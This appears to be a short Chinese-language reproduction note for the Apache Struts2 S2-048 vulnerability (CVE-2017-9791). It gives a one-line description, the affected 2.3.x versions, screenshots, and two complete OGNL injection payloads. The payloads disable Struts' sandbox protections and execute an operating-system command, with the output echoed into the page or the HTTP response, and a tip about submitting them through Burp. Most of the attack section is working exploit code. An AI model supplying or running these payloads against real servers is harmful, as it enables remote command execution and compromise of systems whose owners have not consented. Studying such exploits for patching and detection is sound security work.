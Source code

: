 # （CVE-2017-9791）s2-048

## 一、漏洞简介

当实用了Struts2 Struts1 插件时，可能导致不受信任的输入传入到ActionMessage类种导致命令执行

## 二、漏洞影响

2.3.x

## 三、复现过程

## POC

![1.png](images/4dd1c2e7539c43ee8d37e710cbc54c35.png)

![2.png](images/237c6c9d04cc4743ae845f0228764df7.png)

**回显 在正常页面里**

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}

```

![3.png](images/bdaa75d563164093b75e1507a0bfd8a6.png)



burp里改 浏览器里填就500

**光有回显**

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

```

![4.png](images/4d0082833dbd4b41abfd2d06fc8ec50e.png)

